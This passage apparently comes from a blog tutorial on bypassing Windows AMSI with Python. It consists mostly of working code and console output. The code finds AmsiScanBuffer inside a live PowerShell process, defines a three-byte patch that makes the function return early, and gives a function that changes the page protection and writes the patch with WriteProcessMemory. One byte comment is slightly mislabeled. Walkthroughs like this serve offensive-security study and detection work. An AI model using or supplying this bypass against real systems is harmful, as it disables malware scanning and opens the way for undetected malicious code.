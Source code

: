 ```python
amsiScanBufferAddress = readBuffer(process_handle, amsiDllBaseAddress, AmsiScanBuffer)
print(f'[+] Address of AmsiScanBuffer found at {hex(amsiScanBufferAddress)}')
```

Let's check it:

```powershell
PS C:\Users\aroldan> python3 .\Documents\amsibypass.py
[+] Got process handle of PID powershell at 18760: 0x410
[+] Found base address of amsi.dll: 0x7ffd4c270000
[+] Address of AmsiScanBuffer found at 0x7ffd4c278260
```

Wonderful!

### Patch `AmsiScanBuffer`

Now that we found our target address, we can
patch it with the payload we discussed in our
[previous post](../amsi-bypass/):

```x86asm
xor eax,eax
ret
```

Let's create a variable with that:

```python
patchPayload = (
    b'\x29\xc0' +           # xor eax,eax
    b'\xc3'                 # ret
)
```

I also wrote the following function to help
with the patching:

```python
def writeBuffer(handle, address, buffer):
    nBytes = c_int(0)
    KERNEL32.WriteProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_void_p]
    KERNEL32.VirtualProtectEx.argtypes = [c_ulong, c_void_p, c_size_t, c_ulong, c_void_p]

    res = KERNEL32.VirtualProtectEx(handle, address, len(buffer), PAGE_READWRITE, byref(c_ulong()))
    if not res:
        print(f'[-] VirtualProtectEx Error: {KERNEL32.GetLastError()}')
    res = KERNEL32.WriteProcessMemory(handle, address, buffer, len(buffer), byref(nBytes))
    if not res:
        print(f'[-] WriteProcessMemory Error: {KERNEL32.GetLastError()}')
    return res
```

It will take the process handle, the address
of `AmsiScanBuffer` we discovered and the
patching payload. It will first change the
memory page protection to `PAGE_READWRITE`
because by default it has read-only permissions.
Then, using `WriteProcessMemory()` it will
patch `AmsiScanBuffer` with our instructions.
